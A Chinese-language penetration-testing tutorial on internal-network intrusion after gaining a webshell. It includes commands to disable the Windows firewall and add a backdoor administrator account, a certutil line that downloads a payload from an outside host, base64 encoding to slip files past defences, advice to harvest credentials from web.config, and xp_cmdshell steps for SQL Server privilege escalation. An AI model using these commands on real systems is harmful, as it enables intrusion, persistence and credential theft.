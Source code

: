 # 内网渗透
## 渗透测试的流程
在对内网进行渗透测试前，我们需要获取权限，依次为后台权限=》webshell权限=》服务器权限；大多数情况下是获取到webshell权限，随后再进行提权操作获取服务器权限。
## webshell
#### webshell的定义：对web应用中的文件拥有增删改查的功能。
#### webshell权限
webshell的权限根据不同的系统有的不同的权限，有的时候是系统权限，有的时候是管理员权限，有的时候是普通用户权限。
- Windows
1. system         系统权限      （system权限是最高权限）
2. Administrator  管理员权限
3. user           普通权限
- Linux
1. root           管理员权限
2. user           普通权限

##### 内网需要对计算机不同的系统有着一定的操作能力。
## Windows系统基础篇
- 在Windows服务器中默认只允许拥有管理员权限的用户才能远程登陆服务器中。
- Windows的服务器系统版本（win2000,win2003,win2008,win2012,win2016,win2019,win2022）,都有共同的默认账号administrator和guest，且guest账号默认是禁用的。
- Windows默认远程控制（RDP）端口为3389，服务（TermService）
#### 如何通过命令行锁定端口号
有的时候远程的端口会被管理员修改，我们可以通过命令行来对端口进行锁定，步骤如下：
1. 使用`tasklist /svc`找到TermService服务对应的PID号
2. `netstat -ano`找到对应PID开放的端口号

#### 连接不上3389端口的原因
- 对方服务器只映射了web端口到外网，未映射3389端口到外网，所以外网无法直接访问内网的3389，导致无法连接；可通过ipconfig查看系统是公网IP还是公网IP。
- 服务器自身的系统防火墙入网规则未允许3389入网请求。解决方法：使用dos命令关闭防火墙，简单暴力。

## doc命令篇
```
netsh firewall set opmode disable 关闭防火墙
netsh firewall set opmode mode=enable 开启防火墙
whoami /priv  查看当前权限列表
net user 查看用户列表
net user aaa 查看用户aaa
net user aaa 123  修改用户aaa密码为123
net user aaa /del 删除用户aaa
net user aaa 123 /add 添加用户aaa并且密码为123
net user aaa /active:yes  激活用户aaa
net user aaa /active:no   禁用用户aaa
net localgroup Administrators aaa /add 用户aaa添加到管理员组
net localgroup Administrators aaa /del 将用户aaa从管理员组移除
net localgroup Administrators  查看管理员组有哪些用户
tasklist /svc 查看进程所对应的服务名和PID
tasklist /v 查看进程对应启动的用户名
netstat -ano 查看开放的端口
```
## 拿到webshell后如何进行信息收集
常见的连接webshell的工具，如：
1. 冰蝎
2. 蚁剑
3. 菜刀
4. 哥斯拉（推荐）https://github.com/808Mak1r/GodzillaSource

连接好webshell后收集数据库信息，然后连接数据库。Windows上搭建的服务器可以查看web.config，当此文件没有我们要的信息时，也可以查看其他带有.config的文件，尽量收集更多的信息。

- web.config可能收集到的信息
1. 数据库连接信息
2. 邮件连接信息
3. 域控管理员连接信息
4. 后台账号密码
5. 短信发送平台连接信息
6. API接口平台

## Windows上下载文件到服务器有哪些方法？
- certutil命令(该命令在win2000上不支持)
`certutil -urlcache -split -f http://1.1.1.1:8080/test.aspx`
##### 此命令的其他功能
```
certutil -urlcache -split -f http://1.1.1.1:8080/test.aspx C:\Windows\Temp\1.aspx 下载文件到制定路径下

certutil 还可以进行base64编码，可通过此防范绕过防火墙，步骤如下

首先先将文件进行编码 certutil -encode 1.aspx 1.txt,这样我们就将1.aspx进行了base64编码并存储到了1.txt文件中，随后我们在解码，certutil -decode 1.txt 2.aspx,将编码后的文件再解码，就可以执行文件了。


```

## 权限提升
权限提升分为两类，一类是系统漏洞提权，一类是不正确配置提权，也称第三方提权（sql server提权）。
- sql server 提权操作
```
第一种
sp_configure 'show advanced options',1
reconfigure
go
sp_configure 'xp_cmdshell',1
reconfigure
go

第二种

sp_configure 'show advanced options',1
RECONFIGURE WITH OVERRIDE
go
sp_configure 'xp_cmdshell',1
RECONFIGURE WITH OVERRIDE
go

```











